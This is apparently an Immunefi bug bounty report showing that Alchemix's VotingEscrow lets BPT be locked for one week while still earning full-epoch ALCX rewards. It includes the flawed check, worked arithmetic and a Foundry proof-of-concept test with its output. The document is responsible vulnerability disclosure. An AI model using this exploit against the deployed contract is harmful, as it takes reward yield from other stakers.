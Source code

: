 
# BPT can be locked for only 1 week, resulting in unfair ALCX reward distribution

Submitted on Wed May 15 2024 21:32:46 GMT-0400 (Atlantic Standard Time) by @marchev for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31276

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The 80/20 ALCX/WETH BPT has a minimum lock period of 1 epoch (2 weeks). However, a flaw allows malicious actors to lock their BPT for just 1 week, resulting in unfair ALCX reward distribution. This means a malicious actor can unfairly claim rewards without meeting the minimum 2-week lock requirement.

## Vulnerability Details

The `_createLock()` function is responsible for creating a lock when depositing Balancer Pool Tokens in `VotingEscrow`. It should enforce a minimum lock period of 1 epoch (2 weeks):

```sol
    function _createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _maxLockEnabled,
        address _to
    ) internal returns (uint256) {
	    // ...
        uint256 unlockTime = /** ... */ ((block.timestamp + _lockDuration) / WEEK) * WEEK;

        // ...
        require(unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK), "Voting lock must be 1 epoch");

        // ...
    }
```

However, this check is flawed. A malicious actor can lock BPTs for just 1 week instead of the required 2 weeks. This allows them to unjustly receive rewards as if they had locked their BPTs for a whole epoch, effectively stealing rewards from other participants.

**Example Scenario:**

- Next epoch starts at `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

1. Alice locks 1 BPT for `2 weeks` (1 epoch) at `block.timestamp = 1716422401` (Thu May 23 2024 00:00:01 UTC)
2. Bob locks 1 BPT for `7 days + 1 seconds` at `block.timestamp = 1717027199` (Wed May 29 2024 23:59:59 UTC)
3. The epoch resets on `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

**Expected behavior:** Bob should not be able to lock his BPT for less than 1 epoch (2 weeks).

**Actual behavior:** Alice and Bob receive equal rewards.

Bob circumvents the minimum lock duration check. Here’s why:

```sol
block.timestamp = 1717027199

unlockTime = ((block.timestamp + _lockDuration) / WEEK) * WEEK

unlockTime = ((1717027199 + 7 days + 1 seconds) / WEEK) * WEEK

unlockTime = 1717632000
```

The check performed:

```
unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK)

1717632000 >= (((1717027199 + 2 weeks) / 1 weeks) * 1 weeks)

1717632000 >= 1717632000
```

The check passes for Bob, even though his lock time is only `7 days + 1 second`.

## Impact Details

The flawed minimum lock time check allows users to lock BPTs for only 1 week but still receive rewards for a full epoch. This results in unfair reward distribution, with malicious users effectively stealing rewards from others.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1375-L1381

        
## Proof of concept
## Proof of Concept

The following coded PoC demonstrates the issue.

Add the following test case to `VotingEscrow.t.sol`:

```sol
    function test_can_create_lock_for_less_than_1_epoch() public {
        console.log(newEpoch());

        address alice = address(1337);
        vm.label(alice, "Alice");
        address bob = address(31337);
        vm.label(bob, "Bob");

        // Mint Alice & Bob some BPT
        deal(bpt, alice, 10e18);
        deal(bpt, bob, 10e18);

        // Warp time to exactly 2 weeks before the new epoch
        hevm.warp(newEpoch() - 2 weeks); 

        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 aliceTokenId = veALCX.createLock(1e18, 2 weeks, false);
        voter.reset(aliceTokenId);
        // Alice locks 1 BPT for 2 weeks (the minimum lock period) and reset the tokenId
        hevm.stopPrank();

        // Warp time to 7 days and 2 seconds before the next epoch starts
        hevm.warp(newEpoch() - (7 days + 2 seconds));

        hevm.startPrank(bob);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 bobTokenId = veALCX.createLock(1e18, 7 days + 1 seconds, false);
        // Bob succeeds in locking 1 BPT for 7 days + 1 seconds which is less than the required minimum lock period of 1 epoch (2 weeks)
        voter.reset(bobTokenId);
        hevm.stopPrank();

        // Warp time to the start of the new epoch
        hevm.warp(newEpoch());

        // Distribute the rewards
        voter.distribute();

        // Print the unclaimed rewards accrued by Alice & Bob
        console.log("Unclaimed ALCX (Alice): %s", distributor.claimable(aliceTokenId));
        console.log("Unclaimed FLUX (Alice): %s", flux.getUnclaimedFlux(aliceTokenId));

        console.log("Unclaimed ALCX (Bob): %s", distributor.claimable(bobTokenId));
        console.log("Unclaimed FLUX (Bob): %s", flux.getUnclaimedFlux(bobTokenId));
    }
```

Make sure the following entries are updated in `Makefile`:

```sh
# file to test 
FILE=VotingEscrow

# specific test to run
TEST=test_can_create_lock_for_less_than_1_epoch
```

Run the PoC via:

```sh
make test_file_test
```

PoC output:

```sh
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] test_can_create_lock_for_less_than_1_epoch() (gas: 3647937)
Logs:
  Unclaimed ALCX (Alice): 1023262077024604404512
  Unclaimed FLUX (Alice): 38356132673449616
  Unclaimed ALCX (Bob): 1023262077024604404512
  Unclaimed FLUX (Bob): 19178113901412783

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 45.46s (33.49s CPU time)

Ran 1 test suite in 46.90s (45.46s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```